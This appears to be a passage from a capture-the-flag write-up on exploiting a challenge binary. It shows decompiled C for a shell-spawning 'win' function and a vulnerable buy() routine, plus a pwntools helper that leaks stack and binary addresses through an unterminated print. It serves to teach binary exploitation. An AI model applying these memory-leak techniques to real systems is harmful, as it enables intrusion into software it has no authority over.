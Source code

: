 From Reverse Engineering, you can see a "win" function called unlock_storage(). If you managed to redirect code execution to it, it would execute a shell, as shown below.

```c
int unlock_storage()
{
  fprintf(stdout, "\n%s[*] Bruteforcing Storage Access Code . . .%s\n", "\x1B[5;32m", "\x1B[25;0m");
  sleep(2u);
  fprintf(stdout, "\n%s* Storage Door Opened *%s\n", "\x1B[1;32m", "\x1B[1;0m");
  return system("sh");
}
```

This will immediately provide us a clue on how to exploit the binary. Let's examine option "2", "Buy Weapons''.

```c
size_t buy()
{
  char buf[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fwrite("\n[*] What do you want!!? ", 1uLL, 0x19uLL, stdout);
  read(0, buf, 0x47uLL); 
  fprintf(stdout, "\n[!] No!, I can't give you %s\n", buf);
  fflush(stdout);
  return fwrite("[!] Get out of here!\n", 12uLL, 0x15uLL, stdout);
}
```

If you noticed, we have a 72 bytes buffer size that will be printed to stdout as a string, so if we provided a short name, it could print the rest of the data on the stack until it finds a NULL byte. After some trial and error, I manage to leak a stack address sending 64 bytes, as shown in the following function, where data will be 64-byte length.

```python
def leak_1(data):
    leak = ""
    r.sendline(b"2")
    r.sendafter(b"What do you want!!?",data)
    r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    leak = u64(r.recvline().strip().ljust(8, b"\x00"))
    return leak
```
I didn't end up using this stack leak, but I keep it just in case there's another way to exploit it.

Using the same idea and debugging, I noticed that after 7 bytes (8 if you count out the "0xA"), you can leak a binary address. It's fun to mention that I didn't discover this through Reverse Engineering. Sometimes playing with the binary functionality can be helpful. In this case, I was reading the output from the "1" option that printed out some names, and "Phasers" Was one of them. So I noticed some strange data after using this and then looked on IDA to confirm the Leak.
